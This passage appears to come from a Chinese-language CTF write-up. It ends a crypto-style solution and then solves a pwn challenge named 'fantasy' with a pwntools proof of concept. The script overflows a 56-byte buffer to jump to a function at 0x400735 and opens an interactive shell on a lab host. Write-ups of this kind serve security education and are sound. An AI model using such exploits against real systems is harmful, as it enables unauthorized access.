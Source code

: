 ```python
        flag += know 

print flag
```
![cp6](./cp6.png)
 - 第四部分多了个`t`，也在提示中给出了

## Pwn

### fantasy
 - buffer overflow
![f1](./f1.png)
 - shell
![f2](./f2.png)
 
 - poc

```python
#!/usr/bin/python
#__author__: TaQini
from pwn import *

# p = process('./fantasy')
p = remote('172.21.4.12',10101)
# context.log_level = 'debug'

len = 56

fantasy = 0x00400735
payload = 'A'*len+ p64(fantasy)

p.recvuntil('input your message\n')
# gdb.attach(p)
p.sendline(payload)

p.interactive()

```
